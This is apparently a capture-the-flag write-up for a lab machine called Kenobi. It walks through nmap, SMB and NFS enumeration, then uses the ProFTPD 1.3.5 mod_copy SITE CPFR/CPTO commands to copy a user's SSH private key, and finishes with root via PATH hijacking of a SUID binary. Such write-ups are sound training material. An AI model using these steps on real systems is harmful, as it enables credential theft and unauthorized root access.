


# Kenobi

## Enumeration

### nmap Scan

```bash
nmap -A -T4 -oN nmap/kenobi $TARGET
```

scan result is [here](nmap/kenobi)

### enumerate SMB share

with nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $TARGET
```

with smb client

```bash
smbclient //$TARGET/anonymou
```

connect  to smb share

```bash
smbclient  //10.10.7.144/anonymous
```

download all the file in the share

```bash
smbget -R smb://$TAGET/anonymous
```

### RPCbind Enumeration

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $TARGET
```

## Initial access

### Proftpd

 ProFTPD version 1.3.5 is vulnerable to

```bash
 searchsploit proftpd 1.3.5
```

#### Steal ssh key

Let exploit it : steal the ssh id_rsa key of kenobi

```bash
root@pluton:~# nc $TARGET 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.7.144]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```

#### mount /var

```bash
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
root@pluton:/var# ls -la
total 48
drwxr-xr-x 12 root root  4096 Jun  5 13:14 .
drwxr-xr-x 18 root root  4096 Jul 11 22:35 ..
drwxr-xr-x  2 root root  4096 Jul 21 18:51 backups
drwxr-xr-x 14 root root  4096 Jun  5 13:32 cache
drwxr-xr-x 67 root root  4096 Jun  7 16:13 lib
drwxrwsr-x  2 root staff 4096 Mar 30 21:22 local
lrwxrwxrwx  1 root root     9 Jun  5 13:14 lock -> /run/lock
drwxr-xr-x 18 root root  4096 Jul 21 18:24 log
drwxrwsr-x  2 root mail  4096 May  8 14:15 mail
drwxr-xr-x  2 root root  4096 May  8 14:15 opt
lrwxrwxrwx  1 root root     4 Jun  5 13:14 run -> /run
drwxr-xr-x  6 root root  4096 Jun  5 13:14 spool
drwxrwxrwt  7 root root  4096 Jul 21 18:39 tmp
drwxr-xr-x  3 root root  4096 Jun  5 13:14 www
```

### User shell



## Privilege Escalation

### Suid binnary

Search for Suid Binnary

```bash
find / -perm -u=s -type f 2>/dev/null
---
/usr/bin/menu
```

run string on the binnary

```bash
kenobi@kenobi:~$ strings /usr/bin/menu
...
** Enter your choice :
curl -I localhost
uname -r
...
```

call curl or uname without the full path

environement variable hijacking

```bash
kenobi@kenobi:/tmp$ echo "/bin/sh" > uname
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ chmod 777 uname 
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
# whoami
root
#
```

